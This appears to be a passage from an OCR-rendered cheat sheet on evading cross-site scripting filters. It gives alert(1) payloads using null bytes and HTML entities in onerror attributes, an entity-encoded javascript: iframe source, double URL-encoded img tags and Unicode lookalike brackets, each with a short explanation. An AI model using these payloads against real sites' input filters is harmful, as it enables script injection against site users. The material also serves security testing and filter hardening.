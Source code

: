 ## 🔹 6. **Obfuscating Attribute Values**

### NULL Byte + HTML Entity Encoding:

```html
<img onerror=a[%00]lert(1)>
<img onerror=a&#x6c;ert(1)>
```

### ✅ Why it works:

* Browsers **decode HTML entities** (like `&#x6c;` = `l`) before execution.
* This **bypasses filters** that scan for known payload strings like `alert(`.

---

## 🔹 7. **Obfuscating Pseudo-Protocols**

### Example:

```html
<iframe src=j&#x61;vascript:alert(1)>
```

* `&#x61;` = `a`, so this decodes to `javascript:alert(1)`.
* Bypasses filters checking for `javascript:` directly.

---

## 🔹 8. **Tag Bracket Tricks**

### Double-encoding:

```http
%253cimg%20onerror=alert(1)%20src=a%253e
```

#### Process:

1. `%253c` → `%3c` → `<`
2. `%3cimg ... %3e` → `<img ... >`

✅ **Why it works:** Some apps **decode input twice**, especially during logging or preprocessing stages.

---

### Unicode Brackets (glyph lookalikes):

```html
«img onerror=alert(1) src=a»
```

